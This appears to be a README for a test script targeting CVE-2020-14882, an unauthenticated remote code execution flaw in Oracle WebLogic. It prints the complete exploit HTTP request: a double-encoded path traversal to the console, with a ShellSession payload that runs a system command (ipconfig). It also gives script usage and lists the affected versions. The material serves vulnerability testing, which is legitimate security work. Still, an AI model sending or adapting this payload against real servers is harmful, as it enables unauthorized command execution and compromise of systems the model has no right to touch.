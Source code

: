 # (CVE-2020–14882) Weblogic Unauthorized bypass RCE
(CVE-2020-14882) Oracle Weblogic Unauthorized bypass RCE test script

# Requests

    POST /console/images/%252E%252E%252Fconsole.portal HTTP/1.1
    Host: <Target IP>
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-type: application/x-www-form-urlencoded; charset=utf-8
    Content-Length: 128

    _nfpb=false&_pageLable=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('ipconfig');");
    
Test script checks response data with pcre. 

# Usage 
    - 7001/tcp (WebLogic default port) 
    Oracle Weblogic Auth Bypass RCE(CVE-2020–14882).py <Target IP>
    
    - specific port/tcp 
    Oracle Weblogic Auth Bypass RCE(CVE-2020–14882).py <Target IP> <port>
# Affected Version 
WebLogic 10.3.6.0.0
WebLogic 12.1.3.0.0
WebLogic 12.2.1.3.0
WebLogic 12.2.1.4.0
WebLogic 14.1.1.0.0

# PoC 
https://github.com/jas502n/CVE-2020-14882

# reference 
https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf
https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild
